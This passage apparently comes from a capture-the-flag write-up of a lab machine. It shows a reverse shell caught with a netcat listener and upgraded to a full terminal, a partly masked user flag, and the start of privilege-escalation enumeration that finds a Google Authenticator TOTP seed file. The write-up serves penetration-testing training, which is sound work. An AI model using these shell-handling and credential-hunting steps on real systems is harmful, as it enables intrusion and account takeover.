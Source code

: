 

    bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    bill@jewel:~/blog$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    bill@jewel:~/blog$



From there, I can read `user.txt`:



    bill@jewel:~$ cat user.txt
    1867ef18************************



## Shell as root

### Enumeration

#### Home Dir

In bill's home directory, there's an interesting file,
`.google_authenticator`:



    bill@jewel:~$ ls -la
    total 52
    drwxr-xr-x  6 bill bill 4096 Sep 17 14:10 .
    drwxr-xr-x  3 root root 4096 Aug 26 09:32 ..
    lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .bash_history -> /dev/null
    -rw-r--r--  1 bill bill  220 Aug 26 09:32 .bash_logout
    -rw-r--r--  1 bill bill 3526 Aug 26 09:32 .bashrc
    drwxr-xr-x 15 bill bill 4096 Sep 17 17:16 blog
    drwxr-xr-x  3 bill bill 4096 Aug 26 10:33 .gem
    -rw-r--r--  1 bill bill   43 Aug 27 10:53 .gitconfig
    drwx------  3 bill bill 4096 Aug 27 05:58 .gnupg
    -r--------  1 bill bill   56 Aug 28 07:00 .google_authenticator
    drwxr-xr-x  3 bill bill 4096 Aug 27 10:54 .local
    -rw-r--r--  1 bill bill  807 Aug 26 09:32 .profile
    lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .rediscli_history -> /dev/null
    -r--------  1 bill bill   33 Nov  8 11:28 user.txt
    -rw-r--r--  1 bill bill  116 Aug 26 10:43 .yarnrc



It contains a seed for a TOTP two factor auth generator:


